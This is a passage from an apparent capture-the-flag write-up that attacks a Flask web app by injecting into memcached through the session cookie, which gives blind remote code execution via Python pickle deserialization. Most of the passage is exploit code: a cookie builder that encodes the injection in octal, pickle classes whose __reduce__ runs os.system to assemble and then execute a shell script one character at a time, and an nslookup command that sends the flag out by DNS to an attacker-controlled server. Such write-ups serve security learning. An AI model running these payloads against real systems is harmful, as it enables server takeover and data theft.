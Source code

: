 ```py
cookie = b"1\r\nset injected 0 5 "
cookie += str.encode(str(payload_size))
cookie += str.encode("\r\n")
cookie += payload
cookie += str.encode("\r\n")
cookie += str.encode("get injected")

pack = ""
for x in list(cookie):
    if x > 64:
        pack += oct(x).replace("0o", "\\")
    elif x < 8:
        pack += oct(x).replace("0o", "\\00")
    else:
        pack += oct(x).replace("0o", "\\0")

final = f"\"{pack}\""
print(final)
```

The code above generates a pickle RCE payload, adds it to the memcached injection sequence and encodes it into octal, setting this as a cookie with the name `session` should cause a 10 second delay thus confirming RCE.

The RCE is blind since the server crashes after a succesful exploitation.

### Bypassing length limit

Going back to the `@app.before_request` middleware we know that there is a 86 character limit on the session cookie, so we are not able to exfiltrate the flag in one direct payload as it gets trimmed and becomes invalid.

Let's try to create a malicious `.sh` file step by step on the server that we can the call to get the flag.

Since the docker image is running on `alpine` linux there is not many tools on the server we can abuse for blind exfiltration. One that exists and we can use though is `nslookup` for DNS exfiltration.

```
nslookup $(cat /flag*).myserver.com
```

This `sh` payload would get the flag and make a DNS query with the contents of the flag as subdomain to a server controlled by us.

Now we need to repeat the memcached injection pickle RCE sequence for each character of the payload and then follow it up with a payload that would call the malicious `.sh`.

```py
import pickle, os, time

class RCE:
    def __init__(self, char):
        self.char = char

    def __reduce__(self):
        cmd = (f"echo -n '{self.char}'>>a")
        
        return os.system, (cmd,)


class TriggerRCE:
    def __reduce__(self):
        cmd = (f"sh a")
        return os.system, (cmd,)

```